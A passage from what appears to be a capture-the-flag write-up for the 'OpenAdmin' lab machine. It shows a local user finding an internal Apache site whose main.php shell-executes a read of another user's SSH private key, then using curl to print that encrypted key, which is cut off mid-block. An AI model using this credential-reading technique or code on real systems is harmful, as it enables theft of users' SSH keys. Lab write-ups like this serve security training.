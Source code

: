 At the same time, we can find a configuration file for `internal.openadmin.htb` which is listening at `127.0.0.1:52846`.
```shell
jimmy@openadmin:/etc/apache2/sites-enabled$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Then, take a look at `/var/www/internal`.<br>
`main.php` is interesting because it outputs the ssh key for `joanna`.
```shell
jimmy@openadmin:/var/www/internal$ cat main.php 
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

We can use `curl` to access `http://127.0.0.1:52846/main.php`.
```shell
jimmy@openadmin:/var/www/internal$ curl http://localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
```